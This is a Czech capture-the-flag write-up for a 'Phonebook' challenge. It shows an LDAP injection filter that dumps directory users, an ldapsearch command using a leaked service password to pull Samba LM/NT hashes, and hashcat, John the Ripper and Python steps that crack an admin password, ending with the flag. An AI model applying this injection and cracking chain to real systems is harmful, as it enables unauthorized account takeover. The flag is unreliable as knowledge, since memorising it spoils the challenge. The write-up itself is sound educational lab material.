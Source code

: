 # Phonebook (5)

## Zadání

Hi, packet inspector,

you should already get access to the phone book – as a new employee – but the AI is too busy right now. This condition can last several ... who knows ... years?

Your task is to gain access to the application running on <http://phonebook.mysterious-delivery.tcc:40000>.

May the Packet be with you!

## Nápovědy (Hints)

1\. Use VPN to get access to the server.

## Řešení

Na zobrazené stránce ze zadání je pole pro vložení filtru a také přihlašovací obrazovka, do které ale neznáme heslo. Po vyzkoušení běžných kombinací hlásí stránka jen chyby `No entries found` a `Invalid filter - Try harder;-)`.

Když prozkoumáme zdrojový kód stránky, narazíme na zajímavý text.

```html
<!-- New LDAP server host: 10.99.0.121 -->
<!-- 1/2/2022 Temporary search filter (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_))(memberof=cn=nonmigrated,ou=groups,dc=local,dc=tcc)) -->
<!-- 6/8/2022 Filter after migration  (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_}))) -->
```

Jedná se tedy o LDAP filtr. Je potřeba zadat filtr, který by vypsal všechny uživatele. Můžeme použít třeba `*)(uid=*))(|(uid=*`.

Dojde k vypsání uživatelů, kde na konci najdeme

| UID         | Description | Phone | DN | Groups |
| ----------- | ----------- | ----- | -- | ------ |
| skeech   |Standard account  | 2108744716 | uid=skeech,ou=people,dc=local,dc=tcc | cn=users,ou=groups,dc=local,dc=tcc |
| admin1   |Admin account     | 7254437132 | uid=admin1,ou=people,dc=local,dc=tcc | cn=admins,ou=groups,dc=local,dc=tcc |
| admin2   |Admin account     | 5452487532 | uid=admin2,ou=people,dc=local,dc=tcc | cn=admins,ou=groups,dc=local,dc=tcc,cn=web_admins,ou=groups,dc=local,dc=tcc |
| ldap_sync|Don't change password. gasg35faCasgt%AF | | uid=ldap_sync,ou=people,dc=local,dc=tcc | cn=admins,ou=groups,dc=local,dc=tcc |

Na poslední řádce je uživatel `ldap_sync` s uvedeným heslem `gasg35faCasgt%AF` v popisu.

Zkusíme uživatele na přihlašovací obrazovce. Nefunguje 😒.

Z hlavičky ale také víme, že

`New LDAP server host: 10.99.0.121`

Zkusíme se připojit na server `10.99.0.121` se získanými přihlašovacími údaji a zobrazit LDAP seznam.

`ldapsearch -h 10.99.0.121 -D "uid=ldap_sync,ou=people,dc=local,dc=tcc" -w "gasg35faCasgt%AF" -b "dc=local,dc=tcc"`

vrátí detailnější informace o uživatelích

```text
# admin1, people, local.tcc
dn: uid=admin1,ou=people,dc=local,dc=tcc
objectClass: inetOrgPerson
objectClass: sambaSamAccount
cn: admin1
givenName: admin
sn: admin1
homePhone: 7254437132
mail: admin1@local.tcc
sambaSID: S-1-5-21-1528920847-3529959213-6859888036
sambaNTPassword: D43AC268D9148F59AC4F1657D7292204
sambaLMPassword: B1019EF3BC17B7E030495103E1C1A7DD
uid: admin1
description: Admin account

# admin2, people, local.tcc
dn: uid=admin2,ou=people,dc=local,dc=tcc
objectClass: inetOrgPerson
objectClass: sambaSamAccount
cn: admin2
givenName: admin
sn: admin2
homePhone: 5452487532
mail: admin2@local.tcc
sambaSID: S-1-5-21-1528920847-3529959213-2887712062
sambaNTPassword: 32644235283BC5561CC7FE4FFFADDAEE
sambaLMPassword: 48448F207404DB05F3BAC3A9216F6D52
uid: admin2
description: Admin account

# ldap_sync, people, local.tcc
dn: uid=ldap_sync,ou=people,dc=local,dc=tcc
objectClass: inetOrgPerson
objectClass: sambaSamAccount
cn: ldap_sync
givenName: ldap_sync
sn: ldap_sync
mail: ldap_sync@local.tcc
userPassword:: e1NTSEF9VmUvVjB0akRYTyt3dEk3Z0tlaGZXOWJjZXF4WHlsbHI=
sambaSID: S-1-5-21-1528920847-3529959213-9773803020
uid: ldap_sync
description: Don't change password. gasg35faCasgt%AF

# search result
search: 2
result: 0 Success

# numResponses: 76
# numEntries: 75
```

Zajímavé jsou informace pro uživatele `admin2`, který patří do skupiny `web_admins`. U něho jsou uvedeny řádky

```text
sambaNTPassword: 32644235283BC5561CC7FE4FFFADDAEE
sambaLMPassword: 48448F207404DB05F3BAC3A9216F6D52
```

, ve kterých je různými způsoby zakódované heslo.

Začneme snadněji cracknutelným heslem `sambaLMPassword`. Viz <https://cs.wikipedia.org/wiki/LM_hash>

* Heslo se převede na velká písmena.
* Heslo je vždy doplněno na 14 bajtů pomocí nul.
* Heslo je rozděleno na dvě sedmibajtové poloviny.

Zkusíme použít online nástroj <http://rainbowtables.it64.com/>. Okamžitě je zobrazeno heslo pro obě poloviny hashe.

| Hash            | Status  | Plaintext |
| ----            | ------  | --------- |
|48448f207404db05 | CRACKED |  TOOSTRO  |
|f3bac3a9216f6d52 | CRACKED |  NGPASS.  |

Prvních 14 znaků hesla převedeného na velká písmena je tedy `TOOSTRONGPASS.`.

Dá se také použít hashcat (nalezení cca za 15 minut)

`hashcat hash_LM -m 3000  -a 3 ?a?a?a?a?a?a?a`

Zkontrolujeme

```text
$ smbencrypt TOOSTRONGPASS.
LM Hash                                 NT Hash
--------------------------------        --------------------------------
48448F207404DB05F3BAC3A9216F6D52        325338356E0D5879A1AD4D8D40628C7C
```

LM hash souhlasí s hodnotou v LDAP, ale NT hash se liší. NT hash (NTLM) nemá omezení jen na velká písmena ani na délku. Vygenerujeme si slovník všech kombinací velkých a malých písmen z `TOOSTRONGPASS.`.

```python
import itertools

s = 'TOOSTRONGPASS'
print('.\n'.join(map(''.join, itertools.product(*zip(s.upper(), s.lower())))))
```

NT hash heslo je potřeba zlomit bruteforce techniku hybridním způsobem použití slovníku + doplnění dalších znaků.

`hashcat hash_NT -m 1000 -a 6 dict ?a?a?a?a -i`

cca po 45 minutách máme heslo `TooStrongPass.2022`. Pro zkrácení doby můžeme zkusit redukovat generovaný slovník kombinací velkých/malých písmen z `TOOSTRONGPASS.`. Pokud zkusíme uhádnout, že bude heslo začínat `TooStrongPass.`, můžeme použít `John the Ripper` s postupným přidáváním znaků:

`john --format=NT hash_NT --mask=TooStrongPass.?a -max-len=25`

Ten heslo zobrazí za pár sekund.

Přihlásíme se na web `admin2 / TooStrongPass.2022`, v menu se objeví položka `Settings` a v ní se skrývá hledaný flag.

## Flag

`FLAG{iLcT-HnNF-egs3-mCSN}`
